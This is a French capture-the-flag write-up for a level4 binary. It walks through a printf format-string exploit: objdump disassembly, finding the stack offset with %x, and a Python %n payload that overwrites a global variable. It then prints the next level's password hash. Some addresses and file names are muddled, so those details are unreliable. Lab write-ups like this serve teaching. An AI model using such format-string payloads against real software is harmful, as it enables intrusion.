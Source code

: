 ```
objdump -M intel -d level4
```

Nous observons que la fonction main appelle une fonction "n" et une "p"
Qui elle même appelle printf, qui peut être exploitée.

```
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
```

```
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
```
Ici c'est interessant, nous faisons une comparaison et si la comparaison est fausse on part à l'adresse de sortie 0x8049810. L'objectif est de rendre cette comparaison vrai. Pour le faire nous changerons la valeur de cette adresse  0x8049810 en utilisant printf.
La seule différence est qu'ici, la comparaison se fait avec un chiffre en "dur" :
0x8049810 -> decimal :16930116

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61: (nous avons rajouter des %x car l'offset est plus loin que precedemment)
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
```
On observe que l'adresse se trouve en 12eme position !


adresse of m: \x10\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  16930112 (- 4 car m)
modifier: %12$n

```
python -c 'print("\x10\x98\x04\x08" + "%16930112c" + "%12$n")' > /tmp/test12
cat /tmp/12 - | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
su level5
```

